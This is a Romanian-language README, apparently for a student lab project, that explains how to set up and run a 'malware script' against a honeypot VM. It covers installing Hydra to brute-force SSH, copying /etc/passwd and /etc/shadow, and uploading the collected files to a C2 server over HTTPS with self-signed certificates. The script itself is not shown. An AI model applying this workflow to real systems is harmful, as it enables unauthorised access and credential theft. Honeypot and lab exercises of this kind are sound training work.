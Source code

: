 # Malware VM Setup

Acest README descrie setup-ul necesar pentru rularea scriptului de malware care se conectează la VM-ul HoneypotProxy și trimite fișiere către serverul C2.

---

## 1. Dependențe Python

Scriptul folosește următoarele librării Python:

- `paramiko` – pentru SSH
- `requests` – pentru upload către serverul C2

Instalează-le astfel:

```bash
sudo apt update
sudo apt install python3-pip -y
pip3 install paramiko requests
````

---

## 2. Hydra

Scriptul foloseste Hydra pentru a afla parola SSH:

```bash
sudo apt install hydra -y
```

* Asigură-te că fișierul de parole (`/path/to/passwords.txt`) există și conține parolele pe care vrei să le testezi.

---

## 3. Certificate pentru HTTPS

Pentru a putea descărca pagini și a urca fișiere pe C2 prin HTTPS fără a dezactiva verificarea SSL (verify=False), trebuie să instalezi certificatele auto-semnate pe VM-ul Malware.

Copiază certificatul de la mitmproxy (dacă e folosit pe HoneypotProxy):
```bash
sudo scp <HONEYPOT_USER>@<HONEYPOT_IP>:/path/to/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca.crt
```

Copiază certificatul de la C2 server:
```bash
sudo scp <C2_USER>@<C2_IP>:/path/to/c2server-ca.pem /usr/local/share/ca-certificates/c2server-ca.crt
```

Actualizează store-ul de certificate:
```bash
sudo update-ca-certificates
```

Verifică că certificatele sunt recunoscute:
```bash
ls -l /etc/ssl/certs | grep c2server
ls -l /etc/ssl/certs | grep mitmproxy
```

## 4. Configurarea scriptului

Editează variabilele din scriptul `malware_script.py`:

```python
HONEYPOT_HOST = "<IP_HONEYPOTPROXY>"         # IP-ul HoneypotProxy
HONEYPOT_USER = "honeypotproxy"         # User valid pe HoneypotProxy
REMOTE_FILES = ["/etc/passwd", "/etc/shadow"]  # Fișiere de extras
C2_URL = "https://<IP_C2SERVER>:5000/upload"  # URL-ul serverului C2

# Path către certificatele instalate
MITM_CA_PATH = "/usr/local/share/ca-certificates/mitmproxy-ca.crt"
C2SERVER_CA_PATH = "/usr/local/share/ca-certificates/c2server-ca.crt"

# Fișierele descărcate de pe pagini web
DOWNLOAD_DIR = "downloaded_pages"
URLS_FILE = "/home/malware/proiect-practica/malware/url_list.txt"  # optional
```

Inlocuieste <IP_HONEYPOTPROXY> si <IP_C2SERVER> cu valorile corespunzatoare.

---

## 5. Rulare script

Rulează manual scriptul:

```bash
python3 malware_script.py
```

* Scriptul va:

  1. Rula Hydra pentru a afla parola SSH.
  2. Conecta la HoneypotProxy prin SSH și explora structura sistemului de fișiere.
  3. Descărca fișierele specificate (`REMOTE_FILE`).
  4. Descărca paginile listate în URL_LIST sau în url_list.txt
  5. Trimite toate fișierele colectate către serverul C2 prin HTTPS folosind certificatele auto-semnate instalate.

---

## 6. Rețea și firewall

* Asigură-te că VM-ul malware poate accesa HoneypotProxy pe **portul 22 (SSH)**.
* Dacă serverul C2 este local, asigură-te că portul 5000 nu e blocat de firewall.

---

## 7. Fișiere rezultate

* `filesystem_map.txt` – structura sistemului de fișiere explorată.
* `passwd` – fișierul copiat de pe HoneypotProxy.
* 'downloaded_pages/' – paginile web descărcate.

